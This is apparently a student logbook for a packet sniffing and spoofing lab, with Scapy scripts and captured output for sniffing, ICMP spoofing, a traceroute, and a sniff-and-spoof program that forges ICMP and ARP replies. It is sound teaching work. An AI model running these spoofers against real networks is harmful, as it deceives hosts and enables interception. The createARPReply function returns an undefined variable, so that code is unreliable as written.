

# Logbook #13

> Environment Setup:
>
> ```bash
> $ docker-compose up -d # Inside LabSetup directory
> ```

## Task 1.1: Sniffing Packets

- Create a Python script with Scapy functionality:  
  The docker network interface in this example is `br-bcafe701ee74`.
  ```python
    # mycode.py
    #!/usr/bin/env python3
    from scapy.all import *
    def print_pkt(pkt):
        pkt.show()
    pkt = sniff(iface='br-bcafe701ee74', filter='icmp', prn=print_pkt)
  ```
  ```bash
  $ sudo python3 mycode.py
  ```

### Step 1.1A

Both of the scenarios below are tested when pinging `10.9.0.5` from the host VM.

#### With root privileges

All ICMP packets are captured as expected.

<details>
<summary><code>$ sudo python3 mycode.py</code></summary>
<code>
###[ Ethernet ]### 
  dst       = 02:42:0a:09:00:05
  src       = 02:42:44:7f:76:01
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 84
     id        = 3525
     flags     = DF
     frag      = 0
     ttl       = 64
     proto     = icmp
     chksum    = 0x18cd
     src       = 10.9.0.1
     dst       = 10.9.0.5
     \options   \
###[ ICMP ]### 
        type      = echo-request
        code      = 0
        chksum    = 0xd6bc
        id        = 0x4
        seq       = 0x9
###[ Raw ]### 
           load      = '\xe6\xe2cg\x00\x00\x00\x00\n\x19\x0e\x00\x00\x00\x00\x00\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !"#$%&\'()*+,-./01234567'

###[ Ethernet ]###
dst = 02:42:44:7f:76:01
src = 02:42:0a:09:00:05
type = IPv4 ###[ IP ]###
version = 4
ihl = 5
tos = 0x0
len = 84
id = 38758
flags =
frag = 0
ttl = 64
proto = icmp
chksum = 0xcf2b
src = 10.9.0.5
dst = 10.9.0.1
\options \
###[ ICMP ]###
type = echo-reply
code = 0
chksum = 0xdebc
id = 0x4
seq = 0x9 ###[ Raw ]###
load = '\xe6\xe2cg\x00\x00\x00\x00\n\x19\x0e\x00\x00\x00\x00\x00\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !"#$%&\'()\*+,-./01234567'
</code>

</details>

#### In a non-root user

The script does not have enough permissions to capture packets and throws an error.

```bash
$ python3 mycode.py
Traceback (most recent call last):
  File "mycode.py", line 7, in <module>
    pkt = sniff(iface='br-bcafe701ee74', filter='icmp', prn=print_pkt)
  File "/usr/local/lib/python3.8/dist-packages/scapy/sendrecv.py", line 1036, in sniff
    sniffer._run(*args, **kwargs)
  File "/usr/local/lib/python3.8/dist-packages/scapy/sendrecv.py", line 906, in _run
    sniff_sockets[L2socket(type=ETH_P_ALL, iface=iface,
  File "/usr/local/lib/python3.8/dist-packages/scapy/arch/linux.py", line 398, in __init__
    self.ins = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(type))  # noqa: E501
  File "/usr/lib/python3.8/socket.py", line 231, in __init__
    _socket.socket.__init__(self, family, type, proto, fileno)
PermissionError: [Errno 1] Operation not permitted
```

### Step 1.1B

#### Capture only the ICMP packet

```python
#!/usr/bin/env python3
from scapy.all import *
def print_pkt(pkt):
    pkt.show()
pkt = sniff(iface='br-bcafe701ee74', filter='ip proto \icmp', prn=print_pkt)
```

<details>
<summary><code>$ sudo python3 mycode.py</code></summary>
<code>
###[ Ethernet ]### 
  dst       = 02:42:0a:09:00:05
  src       = 02:42:44:7f:76:01
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 84
     id        = 28909
     flags     = DF
     frag      = 0
     ttl       = 64
     proto     = icmp
     chksum    = 0xb5a4
     src       = 10.9.0.1
     dst       = 10.9.0.5
     \options   \
###[ ICMP ]### 
        type      = echo-request
        code      = 0
        chksum    = 0xd088
        id        = 0x4
        seq       = 0xac0
###[ Raw ]### 
           load      = '\xe9\xedcg\x00\x00\x00\x00\x0e\x8b\x02\x00\x00\x00\x00\x00\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !"#$%&\'()*+,-./01234567'

###[ Ethernet ]###
dst = 02:42:44:7f:76:01
src = 02:42:0a:09:00:05
type = IPv4 ###[ IP ]###
version = 4
ihl = 5
tos = 0x0
len = 84
id = 152
flags =
frag = 0
ttl = 64
proto = icmp
chksum = 0x65fa
src = 10.9.0.5
dst = 10.9.0.1
\options \
###[ ICMP ]###
type = echo-reply
code = 0
chksum = 0xd888
id = 0x4
seq = 0xac0 ###[ Raw ]###
load = '\xe9\xedcg\x00\x00\x00\x00\x0e\x8b\x02\x00\x00\x00\x00\x00\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !"#$%&\'()\*+,-./01234567'
</code>

</details>

#### Capture any TCP packet that comes from a particular IP and with a destination port number 23.

> Note: To test, execute `nc -vz 10.9.0.5 23` to send TCP packets to port 23.

```python
#!/usr/bin/env python3
from scapy.all import *
def print_pkt(pkt):
    pkt.show()
pkt = sniff(iface='br-bcafe701ee74', filter='tcp and src 10.9.0.1 and dst port 23', prn=print_pkt)
```

<details>
<summary><code>$ sudo python3 mycode.py</code></summary>
<code>
###[ Ethernet ]### 
  dst       = 02:42:0a:09:00:05
  src       = 02:42:44:7f:76:01
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x10
     len       = 40
     id        = 0
     flags     = DF
     frag      = 0
     ttl       = 64
     proto     = tcp
     chksum    = 0x26a9
     src       = 10.9.0.1
     dst       = 10.9.0.5
     \options   \
###[ TCP ]### 
        sport     = 59776
        dport     = telnet
        seq       = 3685518009
        ack       = 0
        dataofs   = 5
        reserved  = 0
        flags     = R
        window    = 0
        chksum    = 0x4bcb
        urgptr    = 0
        options   = []
</code>
</details>

#### Capture packets comes from or to go to a particular subnet.

```python
#!/usr/bin/env python3
from scapy.all import *
def print_pkt(pkt):
    pkt.show()
pkt = sniff(iface='br-bcafe701ee74', filter='src 10.9.0 or dst 10.9.0', prn=print_pkt)
```

<details>
<summary><code>$ sudo python3 mycode.py</code></summary>
<code>
###[ Ethernet ]### 
  dst       = 02:42:44:7f:76:01
  src       = 02:42:0a:09:00:05
  type      = ARP
###[ ARP ]### 
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = 6
     plen      = 4
     op        = who-has
     hwsrc     = 02:42:0a:09:00:05
     psrc      = 10.9.0.5
     hwdst     = 00:00:00:00:00:00
     pdst      = 10.9.0.1

###[ Ethernet ]###
dst = 02:42:0a:09:00:05
src = 02:42:44:7f:76:01
type = ARP ###[ ARP ]###
hwtype = 0x1
ptype = IPv4
hwlen = 6
plen = 4
op = is-at
hwsrc = 02:42:44:7f:76:01
psrc = 10.9.0.1
hwdst = 02:42:0a:09:00:05
pdst = 10.9.0.5

###[ Ethernet ]###
dst = 02:42:44:7f:76:01
src = 02:42:0a:09:00:05
type = ARP ###[ ARP ]###
hwtype = 0x1
ptype = IPv4
hwlen = 6
plen = 4
op = is-at
hwsrc = 02:42:0a:09:00:05
psrc = 10.9.0.5
hwdst = 02:42:44:7f:76:01
pdst = 10.9.0.1
</code>

</details>

## Task 1.2: Spoofing ICMP Packets

The objective is to send an ICMP Request packet in the name of an arbitrary IP address (is this example, `10.9.0.5`) and to expect an ICMP Reply from the destination address (in this example, `10.9.0.6`), i.e., the destination address should reply to the spoofed IP address.

For that, we execute the Python script provided by the lab guide and update the source and destination IP addresses to the desired values.

```python
#!/usr/bin/env python3
from scapy.all import *

a = IP()
a.src = '10.9.0.5'  # hostA: Victim
a.dst = '10.9.0.6'  # hostB
b = ICMP()
p = a/b
send(p)
```

When the script is executed, the ICMP packet is sent to the destination address, and the destination address replies to the spoofed IP address, as intended. This is verified by capturing the packets from the network interface using Wireshark:



## Task 1.3: Traceroute

The objective is to estimate the number of hops or routers between the source and destination IP addresses, i.e., implement `traceroute` using Scapy.

The idea behind the implementation is as stated in the lab guide:

- Send an ICMP request packet with a Time-to-Live (TTL) value of 1.
- The first router returns an ICMP Time Exceeded message.
- Send an ICMP request packet again with a TTL value of 2.
- If the router is the destination, it will return an ICMP Reply message, or else, it will return an ICMP Time Exceeded message, and so on.

Here is the Python script to traceroute the CTF server:

```python
#!/usr/bin/env python3
from scapy.all import *

for ttl in range(1, 30):  # Maximum of 30 hops
    a = IP()
    a.dst = '10.227.243.188'  # ctf.fsi-fe.up.pt: Destination
    a.ttl = ttl
    b = ICMP()
    p = a/b
    reply = sr1(p, verbose = False, timeout = 2)  # Send ICMP request and expect ICMP reply in 2 seconds
    if reply is None:
        print(f"Hop nº{ttl} did not send an ICMP reply")
        continue
    if reply[ICMP].type == 0:
        print(f"Successfully reached {reply[IP].src} with {ttl} hops!")
        break
    else:
        print(f"Hop nº{ttl} with IP {reply[IP].src}")
```

The result for the CTF server is 5 hops:

```bash
$ sudo python3 mycode.py
Hop nº1 with IP 10.0.2.2
Hop nº2 did not send an ICMP reply
Hop nº3 with IP 193.136.25.82
Hop nº4 with IP 10.227.225.230
Successfully reached 10.227.243.188 with 5 hops!
```

The `traceroute` command shows the same result:

```bash
$ traceroute 10.227.243.188
traceroute to 10.227.243.188 (10.227.243.188), 30 hops max, 60 byte packets
 1  _gateway (10.0.2.2)  0.844 ms  0.790 ms  0.780 ms
 2  * * *
 3  193.136.25.82 (193.136.25.82)  34.188 ms  34.179 ms  34.171 ms
 4  10.227.225.230 (10.227.225.230)  35.310 ms  35.301 ms  32.407 ms
 5  ctf-fsi.fe.up.pt (10.227.243.188)  33.004 ms  34.126 ms  34.117 ms
```

## Task 1.4: Sniffing and-then Spoofing

This sniff-and-spoof program is design to:
- Capture ICMP Requests (not Replies) with the source IP of the victim and all ARP Requests.
- Spoof an ICMP Reply with the information from the captured ICMP Request, looking like the destination host (which is offline) replied.
- Spoof an ARQ Reply with the information from the captured ARP Request, looking like the destination has a valid MAC address.
- Ignore ICMP Requests and ARP Requests if the destination is online.

```python
#!/usr/bin/env python3
from scapy.all import *

IFACE = 'br-cb87c14c3c44'

def isOnline(dst):
    a = IP()
    a.dst = dst
    b = ICMP()
    p = a/b
    reply = sr1(p, timeout=1, verbose=False)
    return reply is not None

def createARPReply(pkt):
    p = ARP()
    p.op = 2
    p.hwsrc = "ff:00:ee:11:dd:22" # Arbitrary MAC Address
    p.hwdst = pkt[ARP].hwsrc
    p.psrc = pkt[ARP].pdst
    p.pdst = pkt[ARP].psrc
    return b

def createICMPReply(pkt):
    a = IP()
    a.src = pkt[IP].dst
    a.dst = pkt[IP].src
    a.ihl = pkt[IP].ihl
    b = ICMP()
    b.type = 0
    b.id = pkt[ICMP].id
    b.seq = pkt[ICMP].seq
    c = pkt[Raw].load
    p = a/b/c
    return p

def spoofing(pkt):
    if (pkt.haslayer(ARP)):
        if (pkt[ARP].op == 2):  # Ignore ARP Replies
            return

        if (isOnline(pkt[ARP].pdst)):
            print(f"IP {pkt[ARP].pdst} is online, ignoring ARP Request")

        else:
            print(f"Got ARP Request: {pkt[ARP].psrc} ({pkt[ARP].hwsrc}) -> {pkt[ARP].pdst} ({pkt[ARP].hwdst})")
            p = createARPReply(pkt)
            send(p, verbose = False, iface=IFACE)
            print(f"Spoofed ARP Reply: {p[ARP].psrc} ({p[ARP].hwsrc}) -> {p[ARP].pdst} ({p[ARP].hwdst})\n")

    elif (pkt.haslayer(ICMP)):
        if (isOnline(pkt[IP].dst)):
            print(f"IP {pkt[IP].dst} is online, ignoring ICMP Request")

        else:
            print(f"Got ICMP Request: {pkt[IP].src} -> {pkt[IP].dst}")
            p = createICMPReply(pkt)
            send(p, verbose = False)
            print(f"Spoofed ICMP Reply: {p[IP].src} -> {p[IP].dst}\n")

pkt = sniff(iface=IFACE, filter='(icmp[icmptype] = icmp-echo and src 10.9.0.5) or arp', prn=spoofing)
```

#### Ping a non-existing host on the Internet
To create the ICMP Reply packet, it is necessary to copy all of the fields and data from the captured ICMP Request packet and change the source and destination IP addresses. See the `createICMPReply` function.

```bash
root@982fef9740a3:/# ping 1.2.3.4
PING 1.2.3.4 (1.2.3.4) 56(84) bytes of data.
64 bytes from 1.2.3.4: icmp_seq=1 ttl=64 time=1175 ms
```

```bash
$ sudo python3 mycode.py
Got ICMP Request: 10.9.0.5 -> 1.2.3.4
Spoofed ICMP Reply: 1.2.3.4 -> 10.9.0.5
```

#### Ping a non-existing host on the LAN
Because the host is expected to be in the local network, the victim host will send an ARP Request to find the MAC address of the destination IP address. So, the program also needs to capture and spoof ARP Requests.

The ARP Reply packet is created by copying the source fields from the captured ARP Request packet to the destination fields of the ARP Reply packet and vice-versa, except for the MAC address of the source, which is an arbitrary value (e.g. `ff:00:ee:11:dd:22`) instead of a broadcast address. See the `createARPReply` function.

```bash
root@982fef9740a3:/# ping 10.9.0.99
PING 10.9.0.99 (10.9.0.99) 56(84) bytes of data.
64 bytes from 10.9.0.99: icmp_seq=1 ttl=64 time=14667 ms
```

```bash
$ sudo python3 mycode.py
Got ARP Request: 10.9.0.1 (02:42:95:bb:8e:53) -> 10.9.0.99 (00:00:00:00:00:00)
Spoofed ARP Reply: 10.9.0.99 (ff:00:ee:11:dd:22) -> 10.9.0.1 (02:42:95:bb:8e:53)

Got ICMP Request: 10.9.0.5 -> 10.9.0.99
Spoofed ICMP Reply: 10.9.0.99 -> 10.9.0.5
```

#### Ping an existing host on the Internet
If the program spoofs an ICMP Reply about an existing host, the victim host will receive duplicates of the ICMP Reply packets. To avoid that, the program pings the host to check if it is online and ignores the requests if necessary. See the `isOnline` function.

```bash
$ sudo python3 mycode.py
IP 8.8.8.8 is online, ignoring ICMP Request
```

```bash
root@982fef9740a3:/# ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=61 time=19.3 ms
```
